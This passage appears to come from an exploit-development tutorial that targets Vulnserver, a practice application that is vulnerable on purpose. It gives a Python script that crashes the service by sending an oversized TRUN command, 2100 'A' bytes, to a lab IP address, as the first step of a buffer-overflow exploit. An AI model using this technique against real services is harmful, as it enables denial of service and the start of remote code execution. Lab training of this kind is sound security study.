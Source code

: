 ![Vulnserver](/static/img/01/1.png)

* Replicating the Crash *

From our fuzzer output, we can deduce that Vulnserver has a buffer overflow vulnerability
when a TRUN command with a random strings about 2100 bytes is sent to it.

```python
#!/usr/bin/python
import socket
import struct


payload = 'A' * 2100 

try:
    print "\nSending tons of random bytes..."
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect(('192.168.0.24',9999))
    s.recv(1024)
    s.send(('TRUN .' + payload + '\r\n'))
    s.recv(1024)
    s.send('EXIT\r\n')
    s.close()
    print "\nDone! Wonder if we got that shell back?"
except:
    print "Could not connect to 9999 for some reason..."
```
